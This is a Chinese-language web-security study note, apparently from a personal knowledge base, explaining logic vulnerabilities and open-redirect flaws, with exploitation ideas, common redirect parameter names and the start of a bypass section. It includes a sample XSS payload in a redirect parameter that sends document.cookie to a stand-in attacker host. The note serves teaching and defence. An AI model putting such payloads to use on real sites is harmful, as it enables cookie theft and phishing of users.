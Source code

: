 ```yaml
---
title: 逻辑漏洞
tags:
  - web安全
creation date: 2024-03-15
done: true
---
```

> [!note]
> **逻辑漏洞**：因程序员的思维逻辑的不足，导致编写程序产生的漏洞。与传统漏洞不同点是，逻辑漏洞是用合法的方式就可达成破坏的效果。这类漏洞一般的防护手段或者设备无法阻止，漏洞扫描器也难以发现。  
> **常见场景**：大部分出现在互联网等大企业，特别是业务越多，逻辑越混乱出现的可能性就越大。逻辑漏洞更需要的是细心、对业务的熟悉程度，以及广泛的知识面。  

# 1. url 跳转漏洞  
---
也被称为开放重定向漏洞，可以跳转到任意指定的 url 。  
服务器端未对传入的跳转 url 变量进行检查和过滤。攻击者可以利用该漏洞来伪造 URL，引导用户跳转到恶意站点，进行钓鱼、诱导下载等攻击行为。  
常出现于接受用户输入并将其用于构建 URL 的场景，例如：  
- 用户身份验证和授权：在用户身份验证和授权的过程中，URL 参数通常用于跳转到另一个页面。例如，在某些网站上，用户必须在登录页面上提供凭据，然后被重定向到其他页面。攻击者可能会利用这种机制，将受害者重定向到一个看起来合法的页面，以窃取其登录凭据。  
- 第三方应用程序：在某些情况下，Web 应用程序可能允许第三方应用程序访问其API，并使用URL参数跳转到其他页面。如果未正确验证和授权第三方应用程序，攻击者可以通过构建恶意 URL 来重定向用户到恶意站点。  
类似的跳转类型：`http://example.com/login.php?redirect=http:http//attacker.com/evil.php`  
攻击者可以通过将恶意站点URL（如 `http://attacker.com/evil.php`）放入`redirect`参数中，使得用户在登录成功后跳转到攻击者的站点上，从而进行一些恶意操作。攻击者还可以利用一些其他技术手段，如URL缩短服务、欺骗用户等，更好地利用该漏洞进行攻击。  

## **1.1 利用思路**  
- 钓鱼网站  
- 配合 xss 漏洞  
    攻击者可以通过 URL 漏洞构造出一个恶意的 URL ，并将其嵌入到一个页面中。当用户点击该链接时，可能会触发XSS漏洞，从而导致恶意代码被执行，例如窃取用户的敏感信息、注入恶意代码等。  
    构造URL如下：  

    ```Plain Text
    https://www.example.com/login.php?redirect_url=<script>location.href='https://attacker.com/steal.php?cookie='+document.cookie</script>  
    ```

    当用户点击该链接进行登录时，会被重定向到一个恶意站点，并将用户的Cookie信息传输到攻击者的服务器上，攻击者可以通过获取到的Cookie信息进行后续的攻击。  

- 配合 csrf 漏洞  
- 配合浏览器漏洞：CVE-2018-8174 等  

## 1.2 常见的 bypass 方法  
Url 跳转常用参数：  
`redirect`, `url`, `redirectUrl`, `callback`, `return_url`, `toUrl`, `ReturnUrl`, `fromUrl`, `redUrl`, `request`, `redirect_to`, `redirect_url`, `jump`, `jump_to`, `target`, `to`, `goto`, `link`, `linkto`, `domain`, `oauth_callback` 等。  

假设存在如下情况：    
- `www.xxx.com`：存在url跳转漏洞的网站  
    - `redirect`是`www.xxx.com`网站的跳转页面  
    - `login.xxx.com`是该网站的登录页面  
- `www.attacker.com`：攻击者的网站  
